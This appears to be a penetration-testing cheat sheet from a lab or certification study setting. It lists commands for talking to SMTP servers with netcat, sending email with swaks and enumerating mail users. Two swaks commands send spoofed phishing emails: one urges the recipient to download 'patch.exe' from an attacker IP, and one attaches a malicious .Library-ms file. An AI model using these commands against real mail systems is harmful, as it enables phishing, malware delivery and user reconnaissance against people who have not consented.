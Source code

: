 ### Netcat interact with smtp server with annoymous login(line by line copy)
```
0.nc -C mail.example.org 25 //Insert a carriage return character (Ctrl+V Ctrl+M)
1.HELO example.com
2.MAIL FROM:bar@example.org
3.RCPT TO:foo@example.com
4.DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
5.QUIT
```

### swaks to send email
swaks --to "tharper@victim" --from "rmurray@victim" --ehlo victim --body "Following link is urgent patch link: http://192.168.119.130/patch.exe" --header "Subject:urgent patch" --server 192.168.130.55(email server)

swaks --to jim@relia.com --from maildmz@relia.com --server 192.168.193.189 --attach @/home/kali/Desktop/config.Library-ms --body "Please take a look at the config library file" --header "Subject: Staging Script"

### mail server
```
sudo systemctl restart postfix
```

### smtp user enumeration
```
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t host
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.180.140 -v -p 25
```
